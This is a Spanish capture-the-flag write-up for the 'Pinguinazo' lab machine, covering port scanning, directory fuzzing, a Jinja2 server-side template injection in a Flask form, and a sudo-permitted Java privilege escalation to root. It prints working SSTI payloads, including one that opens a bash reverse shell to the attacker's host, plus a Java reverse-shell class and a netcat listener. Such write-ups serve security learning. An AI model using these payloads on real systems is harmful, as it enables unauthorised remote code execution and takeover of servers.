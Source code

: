 ```yaml
---
description: >-
  ✍️ Autor: El Pingüino de Mario🔍 Dificultad: Fácil  📅 Fecha de creación:
  24/06/2024
---
```


# Pinguinazo

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (523).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (524).png" alt=""><figcaption></figcaption></figure>

Durante el escaneo, se identificó que el puerto 5000/tcp está abierto y asociado al servicio `upnp`. El estado del puerto es `open` y la razón es `syn-ack`.

### 🔎 **EXPLORACIÓN**

Para saber más información sobre el puerto abierto, se realiza el siguiente comando:

```bash
nmap -sCV -p5000 172.17.0.2 -oN targeted
```

<figure><img src="../../.gitbook/assets/image (525).png" alt=""><figcaption></figcaption></figure>

Parece que estamos tratando con un servidor que utiliza **Werkzeug** con **Flask**. Vamos a realizar una inspección manual de este sitio web.

<figure><img src="../../.gitbook/assets/image (526).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2:5000/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (535).png" alt=""><figcaption></figcaption></figure>

Hemos encontrado un directorio llamado `console`, que en este tipo de servidores podría permitir la ejecución remota de código (RCE). Sin embargo, está protegido por un PIN, así que continuaremos con la enumeración.

Parece que el fuzzeo hasta ahora no ha proporcionado más resultados. Vamos a experimentar con el formulario que encontramos al principio. Observamos que hay una reflexión en el campo del nombre, por lo que probaremos si interpreta el código HTML.&#x20;

<figure><img src="../../.gitbook/assets/image (527).png" alt=""><figcaption></figcaption></figure>

Hemos confirmado que el formulario interpreta etiquetas HTML. Ahora, vamos a probar si es vulnerable a un ataque de SSTI (Server-Side Template Injection) utilizando el payload `{{7+7}}`. Si la operación se ejecuta correctamente, esto indicará que es posible inyectar y ejecutar comandos a través de estas plantillas.

<figure><img src="../../.gitbook/assets/image (528).png" alt=""><figcaption></figcaption></figure>

Como se ha realizado correctamente inyectaremos una reverse shell y así poder obtener el acceso al sistema.

Después de investigar varios payloads para **Jinja2**, encontramos uno que permite ejecutar un comando para enviar una shell a nuestra máquina atacante. Utilizamos **HackTricks** y el repositorio de **PayloadAllTheThings** para esta investigación. Enviaremos un **payload** para ver el ID de usuario.

```
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```

<figure><img src="../../.gitbook/assets/image (531).png" alt=""><figcaption></figcaption></figure>

Con esta información, intentaremos establecer una **shell** utilizando este método. Ejecutaremos el siguiente comando, que hemos adaptado para incluir nuestra propia shell, tal como se detalla en la página mencionada.

```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c \'bash -i >& /dev/tcp/172.17.0.1/443 0>&1\'').read() }}
```

<figure><img src="../../.gitbook/assets/image (532).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (533).png" alt=""><figcaption></figcaption></figure>

En **GTFOBins** no encontramos información relevante para nuestro caso, pero hemos encontrado información útil en la siguiente página:

[RevShells](https://www.revshells.com/)

Esta página proporciona una variedad de técnicas y ejemplos para obtener shells reversas en diferentes entornos, lo cual puede ser crucial para nuestra investigación y para implementar un método adecuado para el objetivo.

```bash
public class shell {
    public static void main(String[] args) {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/172.17.0.1/4444 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```

Nos ponemos en escucha con **netcat**, esta vez por el puerto **4444** y ejecutamos como sudo el fichero java que hemos creado.

```bash
nc -lvnp 4444
```

Conseguimos ser **root**.
